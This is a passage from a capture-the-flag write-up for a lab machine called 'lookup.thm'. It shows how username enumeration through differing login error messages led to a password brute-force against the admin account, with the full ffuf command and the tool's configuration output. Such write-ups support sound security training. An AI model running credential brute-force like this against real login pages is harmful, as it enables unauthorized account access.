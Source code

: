### Web

From nmap we see that the hostname `lookup.thm`, let's add it to `/etc/hosts` file and navigate to the web page.

![loing](1.png)

We found a login page, trying with `test:test` it gives us `wrong username or password`

![userpass](2.png)

But with user admin we only get `wrong password`

![admin](3.png)

Let's brute force the password.

```terminal
[★]$ ffuf -c -w /usr/share/wordlists/fasttrack.txt -u http://lookup.thm/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d 'username=admin&password=FUZZ' -fw 8    
                                                                                                                                                                                              
        /'___\  /'___\           /'___\                                                                                                                                                       
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                      
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                                       
          \/_/    \/_/   \/___/    \/_/                                                                                                                                                       
                                                                                                                                                                                              
       v2.1.0-dev                                                                                                                                                                             
________________________________________________                                                                                                                                              
                                                                                                                                                                                              
 :: Method           : POST                                                                                                                                                                   
 :: URL              : http://lookup.thm/login.php                                                                                                                                            
 :: Wordlist         : FUZZ: /usr/share/wordlists/fasttrack.txt                                                                                                                               
 :: Header           : Content-Type: application/x-www-form-urlencoded                                                                                                                        
 :: Data             : username=admin&password=FUZZ                                                                                                                                           
 :: Follow redirects : false                                                                                                                                                                  
 :: Calibration      : false                                                                                                                                                                  
 :: Timeout          : 10                                                                                                                                                                     
 :: Threads          : 40                                                                                                                                                                     
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                                                                                   
 :: Filter           : Response words: 8                                                                                                                                                      
________________________________________________                                                                                                                                              
                                                                                                                                                                                              
```
